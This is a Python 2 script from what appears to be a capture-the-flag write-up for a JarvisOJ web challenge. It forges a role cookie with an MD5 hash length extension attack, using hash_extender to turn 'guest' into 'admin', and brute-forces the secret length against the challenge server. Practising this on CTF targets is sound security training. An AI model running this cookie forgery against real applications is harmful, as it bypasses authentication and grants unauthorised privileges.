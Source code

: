 ```python
    # -*- coding:utf-8 -*-
    from urlparse import urlparse
    from httplib import HTTPConnection
    from urllib import urlencode
    import json
    import time
    import os
    import urllib
    def gao(x, y):
            #print x
            #print y
        url = "http://web.jarvisoj.com:32778/index.php"
        cookie = "role=" + x + "; hsh=" + y
            #print cookie
        build_header = {
                'Cookie': cookie,
                'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:44.0) Gecko/20100101 Firefox/44.0',
                'Host': 'web.jarvisoj.com:32778',
                'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        }
        urlparts = urlparse(url)
        conn = HTTPConnection(urlparts.hostname, urlparts.port or 80)
        conn.request("GET", urlparts.path, '', build_header)
        resp = conn.getresponse()
        body = resp.read()
        return body
    for i in xrange(1000):
        print i
        #secret len = ???
        find_hash = "./hash_extender -d ';\"tseug\":5:s' -s 3a4727d57463f122833d9e732f94e4e0 -f md5  -a ';\"nimda\":5:s' --out-data-format=html -l " + str(i) + " --quiet"
        #print find_hash
        calc_res = os.popen(find_hash).readlines()
        hash_value = calc_res[0][:32]
        attack_padding = calc_res[0][32:]
        attack_padding = urllib.quote(urllib.unquote(attack_padding)[::-1])
        ret = gao(attack_padding, hash_value)
        if "Welcome" in ret:
            print ret
            break
```

**使用示例**：

![image-20231105105956298](assets/image-20231105105956298.png)
